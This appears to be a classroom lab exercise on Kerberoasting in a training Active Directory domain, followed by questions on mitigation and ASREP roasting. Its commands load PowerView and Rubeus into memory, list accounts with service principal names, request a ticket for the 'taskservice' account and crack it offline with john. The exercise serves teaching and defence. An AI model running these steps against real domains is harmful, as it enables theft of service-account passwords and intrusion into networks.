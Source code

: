 # Exercise 4 - Kerberos Roasting

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Rubeus: [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
- john: [https://www.openwall.com/john/](https://www.openwall.com/john/)

## Exercise

In this exercise, we'll use Kerberoasting to crack the password of the service account "taskservice".

First, load Powerview and Rubeus.

```
cd C:\attacker-tools
cat -raw .\PowerView.ps1 | iex
cat -raw .\Invoke-Rubeus.ps1 | iex
```

Get all domain users with a Service Principal Name (SPN).

```
Get-DomainUser -SPN | select samaccountname, description, pwdlastset, serviceprincipalname
```

You can also use rubeus to get better statistics (useful in large environments and for audit reports ;-) ).

```
Invoke-Rubeus -Command "kerberoast /stats"
```

Run rubeus to get a TGS for the target user.

```
Invoke-Rubeus -Command "kerberoast /user:taskservice /format:hashcat /outfile:krb5tgs.txt"
```

Crack the TGS with john.

```
cd C:\attacker-tools\john\run
.\john.exe <path-to-krb5tgs.txt> --wordlist=..\..\example.dict --rules=passphrase-rule2
```


## Questions

 - Do an online research on how to best mitigate kerberoasting attacks. Describe the mitigation techniques that you think are the best and explain why you chose them.
 - There is another user account vulnerable to ASREP roasting. Crack his password using similar commands like in the previous exercise. (Hint: Get-DomainUser -NoPreauth)
 - Explain the difference between the two attacks you just executed (TGS vs. ASREP roasting).